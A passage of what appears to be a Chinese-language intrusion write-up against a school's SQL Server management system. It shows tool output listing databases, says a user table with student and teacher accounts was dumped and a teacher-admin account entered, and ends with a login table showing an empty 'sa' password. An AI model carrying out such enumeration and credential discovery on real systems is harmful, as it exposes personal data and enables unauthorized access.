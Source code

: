 ```
[*] PaperGuideline
[*] ReportServer
[*] ReportServerTempDB
[*] s33
[*] sd2019
[*] sdms07
[*] sdms08
[*] sdms09
[*] sdms10
[*] sdms11
[*] sdms12
[*] sdms13
[*] sdms14
[*] sdms15
[*] sdms16
[*] sdms17
[*] sdms18
[*] sdms2018
[*] sdmscx
[*] sdmsjc08
[*] sdmsjc09
[*] sdmsjc10
[*] sdmsjc11
[*] sdmsjc12
[*] sdmsjc13
[*] sdmsjc14
[*] sdmsjc15
[*] sdmsjc16
[*] sdmsjc17
[*] sdmsjc18
[*] sdmspj18
[*] sdmsys
[*] sdtest
[*] tempdb
```

爆出数据库中的user表，3800+个字段

账号分为3类：

+ 学生账号
+ 普通教师账号
+ 教师管理员账号

进入教师管理员账号但发现无上传文件的地方

***

接着爆出了系统表`master`，拿到数据库`sa`的密码为空：

```
Database: master
Table: sys.sql_logins
[2 entries]
+------+---------------+
| name | password_hash |
+------+---------------+
| sa   | NULL          |
| sdms | NULL          |
+------+---------------+
```
